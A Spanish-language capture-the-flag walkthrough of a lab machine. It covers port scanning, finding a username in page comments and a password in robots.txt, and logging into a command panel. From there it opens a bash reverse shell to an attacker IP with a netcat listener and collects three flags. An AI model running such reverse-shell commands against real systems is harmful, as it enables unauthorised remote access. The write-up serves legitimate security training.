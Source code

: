 
Empezamos realizando un escaneo básico con [[NMAP]]
`nmap -p- --open -sSCV  --min-rate 5000 -n -Pn 10.10.81.88 -oN ScanPorts.txt`

Encontramos levantados los puertos `22 SSH` y `80 HTTP` con un servicio Apache.
Navegamos a la web que esta corriendo en el puerto `80`

En el código fuente encontramos en los comentarios el nombre de usuario `R1ckRul3s`, así que vamos a hacer fuzzing con [[DIRBUSTER]] encontramos un directorio llamado `/login.php` navegamos a el.

Tenemos un usuario pero nos falta una contraseña, en el fuzzing web hemos visto que existe el fichero `/robots.txt` en el encontramos una supuesta contraseña `Wubbalubbadubdub`, al probarla en el login conseguimos acceder.

Encontramos un cuadro donde podemos ejecutar comandos, entonces nos enviaremos una bash y nos pondremos en escucha con [[NETCAT]]

- Reverse Shell
	` bash -c 'bash -i >& /dev/tcp/10.8.28.111/443 0>&1'`

- Ponerse en escucha 
	`nc -lvnp 443 `

Estabilizamos la shell y hacemos el [[01. Tratamiento de la TTY]]

Una vez estabilizado, en el directorio de `/var/www/html` encontramos la primera flag.
Navegando por directorios encontramos `/home/rick` desde esta la segunda flag.
Y la tercera flag se encuentra en el directorio `/root`.

